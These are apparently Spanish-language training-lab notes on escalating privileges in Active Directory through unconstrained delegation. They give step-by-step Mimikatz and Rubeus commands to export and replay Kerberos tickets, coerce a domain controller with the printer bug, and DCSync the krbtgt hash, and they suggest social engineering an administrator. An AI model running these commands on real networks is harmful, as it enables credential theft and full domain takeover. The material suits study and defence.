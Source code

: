 `Get-DomainComputer -UnConstrained`

AD: 

`Get-ADComputer -Filter {TrustedForDelegation -eq $True}` 

`Get-ADUser -Filter {TrustedForDelegation -eq $True}`

 Debemos engañar a un administrador de dominio u otro usuario de alto privilegio para que se conecte a un servicio en us-web. Hay que utilizar Ingenieria Social.
• Después de la conexión, podemos exportar TGT usando el siguiente comando:
`Invoke-Mimikatz –Command '"sekurlsa :: tickets / export"'`
• El billete se puede reutilizar:
`Invoke-Mimikatz –Command '"kerberos :: ptt ticket.kirbi"'`

¿Cómo engañamos a un usuario con muchos privilegios para conectar a una máquina con delegación sin restricciones? El Bug de impresora!
• Una función de MS-RPRN que permite cualquier usuario de dominio (autenticado) puede forzar cualquier máquina (en ejecución el servicio Spooler) para conectarse a una segunda máquina del dominio a elección del usuario.

Usemos MS-RPRN.exe ([https://github.com/leechristensen/SpoolSample](https://github.com/leechristensen/SpoolSample)) en nuestra web

`.\MS-RPRN.exe \\us-dc.us.techcorp.local \\us-web.us.techcorp.local`

Con Rubeus capturamos el TGT del us-dc :

`.\Rubeus.exe monitor /interval:5`

Se copia el TGT codificado en base64 (se eliminan los espacios) y lo usamos en la maquina atacante:

`.\Rubeus.exe ptt /tikcet:`

O tambien se puede hacer con mimikatz:

`[IO.File]::WriteAllBytes("C:\AD\Tools\USDC.kirbi",[Convert]::FromBase64String("ticket_from_Rubeus_monitor")) 
Invoke-Mimikatz -Command '"kerberos::ptt C:\AD\Tools\USDC.kirbi"'`

Corremos DCSync:

`Invoke-Mimikatz -Command '"lsadump::dcsync /user:us\krbtgt"'`

Para abusar de la delegación restringida con la transición de protocolo, necesitamos
comprometer la cuenta del servicio web. Si tenemos acceso a esa cuenta, es posible acceder a los servicios enumerados en msDS AllowToDelegateTo de la cuenta del servicio web como CUALQUIER usuario.

Privilege Escalation – Constrained Delegation with Protocol Transition

![/assets/images/images_AD/Domain%20Priv%20Esc/Untitled%201.png](/assets/images/images_AD/Domain%20Priv%20Esc/Untitled%201.png)

